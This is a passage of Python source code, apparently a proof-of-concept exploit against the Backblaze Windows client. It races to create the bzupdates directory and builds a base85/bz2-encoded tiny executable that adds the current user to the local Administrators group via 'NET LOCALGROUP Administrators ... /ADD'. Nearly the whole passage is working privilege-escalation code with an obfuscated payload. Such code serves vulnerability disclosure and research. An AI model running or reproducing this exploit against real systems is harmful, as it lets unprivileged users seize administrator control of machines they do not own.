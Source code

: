 ```python
    while not os.path.exists(file_path):
        ctypes.windll.kernel32.ReadDirectoryChangesW(
            h, ctypes.byref(buffer), 1024, False, notify_filter,
            ctypes.byref(bytes_returned), None, None)
    ctypes.windll.kernel32.CloseHandle(h)


def get_exe_content():
    #
    # Returns the content of an EXE that will add the attacker to the
    # Administrators group. Based on
    # https://github.com/corkami/pocs/blob/master/PE/tiny.asm
    #
    exe_content = bz2.decompress(base64.b85decode(
        "LRx4!F+o`-Q&~Gdx1Rt2IDf_b?h*hH0T=+r20)M=eGothKnwr?AOHZM0CF*qXfk9P8W?" +
        "~Xpp?}o=_Zd;AT%0gp!EiU7eYM!=ig9Ls6k|2Zp2X7u2P_M#mS9GBAA+UVO{FjHAvEri" +
        "p0bod_MlBT`kDlS6O$(^CD~4Z=KV8QJRn3`8m~{QUE*R2n)F)oG3^gpWDxX"))
    exe_content += ("NET LOCALGROUP Administrators " +
                    f"{os.environ['USERDOMAIN']}\\" +
                    f"{os.environ['USERNAME']} /ADD").encode()
    return exe_content


def am_i_admin():
    bufptr = ctypes.c_void_p()
    ctypes.windll.netapi32.NetUserGetInfo(
        os.environ["USERDOMAIN"], os.environ["USERNAME"], 1,
        ctypes.byref(bufptr))
    if platform.architecture()[0] == "32bit":
        usri1_priv = ctypes.string_at(bufptr, 13)[-1]
    else:
        usri1_priv = ctypes.string_at(bufptr, 21)[-1]
    ctypes.windll.netapi32.NetApiBufferFree(bufptr)
    return usri1_priv == 2


def poc():
    print(f"Running as user: {os.environ['USERNAME']}")

    # Ensure that we're running as an unprivileged user.
    print("Testing for administrative privileges...")
    if am_i_admin():
        print("You're already an administrator. Bye!")
        return
    print("You're a non-administrative user.")

    # Raise our process's priority to try to win our race condition.
    pid = ctypes.windll.kernel32.GetCurrentProcessId()
    h = ctypes.windll.kernel32.OpenProcess(0x200, False, pid)
    ctypes.windll.kernel32.SetPriorityClass(h, 0x100)
    ctypes.windll.kernel32.CloseHandle(h)

    # Create the bzupdates directory so that we are the owner of it.
    bzupdates = f"{os.environ['ProgramData']}\\Backblaze\\bzdata\\bzupdates"
    if os.path.exists(bzupdates):
        print("Backblaze's bzupdates directory was already created. You're " +
              "too late!")
        return
    os.makedirs(bzupdates)

    #
    # Get the installed hguid value so that we can force an update via
    # clientversion.xml.
```